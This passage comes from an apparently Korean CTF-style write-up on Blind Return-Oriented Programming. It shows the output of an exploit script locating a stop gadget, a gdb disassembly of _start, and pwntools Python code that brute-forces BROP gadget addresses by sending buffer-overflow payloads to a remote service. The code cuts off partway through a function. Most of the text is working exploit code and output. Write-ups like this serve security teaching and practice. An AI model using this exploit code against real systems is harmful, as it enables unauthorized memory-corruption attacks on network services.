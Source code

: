```shell
root@bs-virtual-machine:~/pwnable# python exploit.py 
[*] Overflow size : 72
[+] Searching for Stop gadget: Done
[*] Progress to 0x100
[*] Progress to 0x200
[*] Progress to 0x300
[*] Progress to 0x400
[*] Progress to 0x500
[*] Stop Address : 0x4005c0
```

해당 주소는 _start() 함수의 시작주소이다.

```
gdb-peda$ x/3i 0x4005c0
   0x4005c0 <_start>:	xor    ebp,ebp
   0x4005c2 <_start+2>:	mov    r9,rdx
   0x4005c5 <_start+5>:	pop    rsi
```

### **Check BROP Gadget**

POP Instruction이 6개인 BROP를 찾는다.

```python
def find_brop_gadget(size,stop_gadget):
	p = log.progress('Searching for BROP Gadget')
	base = 0x400000
	for offset in range(0x700,0x1000):
		if offset % 0x100 == 0:
			log.info('Progressed to 0x%x'%offset)
		
		addr = base + offset

		if maybe_brop_gadget(size,stop_gadget,addr):
			log.info('Maybe BROP Gadget : '+str(hex(addr)))
			if is_brop_gadget(size,addr):
				p.success('Done')
				log.info('Found BROP Gadget : '+str(hex(addr)))
				return addr

# Paylaod에 BROP Gadget을 찾기 위해 Return address 영역 뒤에 레지스터에 저장할 값을 저장하고 마지막에 Stop Gadget을 저장
def maybe_brop_gadget(size,stop_gadget,addr):
	try:
		payload = ''
		payload += "A"*size
		payload += p64(addr)
		payload += p64(0)*6
		payload += p64(stop_gadget)

		r = remote(ip,port,level='error')
		r.recvline()
		r.sendline(payload)
		recv = r.recv(timeout=0.2)
		r.close()
		if 'WelCome my friend,Do you know password?' in recv:
			return True
		return False

	except Exception as e:
		r.close()
		return False

# BROP Gadget으로 추측되는 주소만을 사용해서 전달하여 예외가 발생하면 BROP Gadget으로 판단
def is_brop_gadget(size,addr):
```